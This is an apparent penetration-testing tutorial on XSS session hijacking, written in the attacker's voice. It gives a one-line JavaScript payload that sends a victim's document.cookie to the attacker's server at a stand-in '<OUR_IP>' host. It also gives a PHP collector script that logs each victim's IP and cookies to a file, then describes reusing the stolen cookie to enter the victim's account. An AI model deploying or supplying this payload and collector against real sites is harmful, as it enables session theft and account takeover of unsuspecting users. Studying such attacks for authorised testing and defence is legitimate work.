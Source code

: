 # XSS Session Hijacking.
Modern web applications use cookies to maintain a user's session across different browsing sessions. This allows the user to log in only once and keep their session active even if they visit the same 
website at a different time or date. However, _if a malicious user __obtains the cookie data from the victim's browser__, they could __access the victim's logged-in session without knowing their credentials__._
With the ability to execute JavaScript code in the victim's browser, we could collect their cookies and send them to our server to hijack their logged-in session through a session hijacking attack 
(also known as cookie hijacking).

## Attack overview.
It requires a JavaScript payload to send us the necessary data and a PHP script hosted on our server to capture and analyze the transmitted data.
We will need to create two files to perform this attack: 
1. [script.js](#script.js), this script should point to index.php to send us the necessary data.
2. [index.php](#index.php), it will capture and analyze the transmitted data. It will create a cookie file to store all the cookies we can find.
3. Additionally, we need an effective payload that we must modify to point to script.js.<br />
Once we find a working XSS payload and identify the vulnerable input field, we can proceed with the XSS exploitation and perform a session hijacking attack.


### script.js
```javascript
new Image().src='http://<OUR_IP>/index.php?c='+document.cookie;
```

### index.php
```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```

## XSS Hijacking Exploitation.
![10](https://github.com/PentesterArchive/Hacking-Web/assets/161533623/250b8be7-ad3e-481b-a8ec-814de2ddfe70)
Now, we wait for the victim to visit the vulnerable page and see our XSS payload. Once they do, we will receive two requests on our server: one for script.js, which will 
make another request with the cookie value:
![12](https://github.com/PentesterArchive/Hacking-Web/assets/161533623/3d74f9ac-ca03-4ffa-87db-b27ebdc93630)


As we mentioned earlier, we get the cookie value directly in the terminal, as we can see. However, since we prepared a PHP script (index.php), we also get the cookies.txt file with a 
clean record of the cookies.<br />
![13](https://github.com/PentesterArchive/Hacking-Web/assets/161533623/875869a5-4ad3-4581-b882-9a5d63b028a3)

Finally, we can use this cookie on the login.php page to access the victim's account.

![16](https://github.com/PentesterArchive/Hacking-Web/assets/161533623/e25a479f-2733-492d-b368-088d219502d4)

![17](https://github.com/PentesterArchive/Hacking-Web/assets/161533623/e62aee6b-29d1-4826-9265-ded3dd3bc957)


